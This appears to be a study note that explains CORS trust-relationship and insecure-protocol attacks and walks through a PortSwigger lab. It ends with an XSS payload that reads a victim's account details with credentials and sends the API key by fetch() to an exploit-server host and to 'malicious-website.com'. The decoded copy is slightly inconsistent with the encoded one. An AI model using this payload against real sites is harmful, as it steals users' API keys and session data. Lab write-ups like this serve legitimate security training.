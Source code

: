 ### Exploiting XSS via CORS trust relationships

   - Even "correctly" configured CORS establishes a trust relationship between two origins.
   - If a website trusts an origin that is vulnerable to cross-site scripting ([XSS](https://portswigger.net/web-security/cross-site-scripting)), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

**Given the following request:**
```js
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

**If the server responds with:**
```js
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com 
Access-Control-Allow-Credentials: true
```

**Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:**
```js
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

### Breaking TLS with poorly configured CORS

**Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:**
```js
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: http://trusted-subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

**The application responds with:**
```js
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com 
Access-Control-Allow-Credentials: true
```
In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application

**This attack involves the following steps:**
   - The victim user makes any plain HTTP request.
   - The attacker injects a redirection to:
```js
http://trusted-subdomain.vulnerable-website.com
```

   - The victim's browser follows the redirect.
   - The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to:
```js
https://vulnerable-website.com   
```

   - The victim's browser makes the CORS request, including the origin:
```js
http://trusted-subdomain.vulnerable-website.com
```

   - The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
   - The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.

This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure.

## Steps to solve lab
### Title - CORS vulnerability with trusted insecure protocols

**Desc** - This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all subdomains regardless of the protocol. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

**Creds** - wiener:peter

1. Try to find any CORS related headers in the application.
![[cors20.png]]
We got a end-point("/accountDetails"), which is most likely vulnerable. Let's test for it.

2. To test for CORS misconfiguration:
	1. We try to change the value of origin header to an arbitrary value.
	  **Before adding the Origin header** - 
	  ![[cors17.png]]
	  
	  **After adding the Origin header** - 
	  ![[cors18.png]]
	  As you can see above, it doesn't reflect value of "Origin" header in the "Access-Control-Allow-Origin" it means, it doesn't accept arbitrary origin.
	
      2.  Change the origin header to the null value.
       ![[cors24.png]]
       As you can see above, it doesn't reflect value of "Origin" header in the "Access-Control-Allow-Origin" it means, it doesn't accept null origin.
       
      3. Change the origin header to one that begins with the origin of the site.
       ![[cors25.png]]
       As you can see above, it doesn't reflect value of "Origin" header in the "Access-Control-Allow-Origin" it means, it may be check that origin should end with the site domain. In simple terms, origin should end with sites domain.

      4. Change the origin header to one that ends with the origin of the site.
       ![[cors26.png]]
       As you can see above, it reflects the origin in the "ACAO" header. There must be subdomain that can easily access this site with the help of CORS.


3. After roaming around in end-points, we got a subdomain and from the lab description we already know that it is vulnerable to XSS.
![[cors27.png]]

4. We successfully found out the XSS vulnerability in "productId" parameter.
![[cors28.png]]

5. Copy the below payload and paste it into the exploit server.
URL encode code - 
```js
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            document.location = "http://stock.0a4300dc048369248142437000e50076.web-security-academy.net/?productId=<script>var xhr = new XMLHttpRequest();var url = 'https://0a4300dc048369248142437000e50076.web-security-academy.net';xhr.onreadystatechange=function(){if(xhr.readyState == XMLHttpRequest.DONE){fetch('https://exploit-0a8300fb049e6943811f42cf01240004.exploit-server.net/log?key=' %2b xhr.responseText);}};xhr.open('GET', url %2b '/accountDetails', true);xhr.withCredentials = true;xhr.send(null);%3c/script>&storeId=1"
        </script>
    </body>
</html>
```

URL decoded code - 
```js
<html>
    <body>
        <h1>Hello World!</h1>
        document.location = "http://stock.0a4300dc048369248142437000e50076.web-security-academy.net/?productId=<script>
        var xhr = new XMLHttpRequest();
        var url = "https://vulnerable-website.com"
        xhr.onreadystatechange = function(){
            if(xhr.readyState == XMLHttpRequest.DONE){
                fetch("https://malicious-website.com/log?key=" + xhr.responseText)
            }
        }
        xhr.open('GET', url + "/accountDetails", true);
        xhr.withCredentials = true;
        xhr.send(null);</script>&storeId=1
        </script>
    </body>
</html>
```

![[cors30.png]]

![[cors29.png]]

![[cors31.png]]

Submit the apikey and lab will be solved.

